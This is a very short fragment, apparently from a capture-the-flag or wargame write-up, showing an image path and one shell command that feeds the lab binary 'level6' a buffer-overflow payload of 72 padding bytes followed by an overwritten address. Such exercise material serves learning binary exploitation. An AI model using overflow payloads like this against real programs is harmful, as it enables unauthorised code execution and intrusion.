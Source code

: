 `./level6 $(printf "000000000000000000000000000000000000000000000000000000000000000000000000\x54\x84\x04\x08")`